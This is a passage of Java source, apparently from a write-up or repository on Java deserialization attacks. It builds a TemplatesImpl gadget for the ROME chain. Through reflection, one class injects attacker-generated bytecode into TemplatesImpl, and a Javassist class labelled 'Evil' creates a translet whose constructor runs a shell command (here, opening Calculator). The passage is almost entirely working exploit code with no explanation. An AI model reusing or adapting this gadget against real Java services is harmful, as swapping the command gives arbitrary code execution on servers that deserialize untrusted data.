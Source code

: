 ```
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

```
package Unser.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.lang.reflect.Field;

public class GetTemplatesImpl {
    public static TemplatesImpl getTemplatesImpl() throws Exception{

        byte[][] bytes = new byte[][]{GenerateEvilByJavaassist.generate()};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);


        return  templates;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

```
package Unser.Rome;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

public class GenerateEvilByJavaassist {
    public static byte[] generate() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -a Calculator\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }


}
```

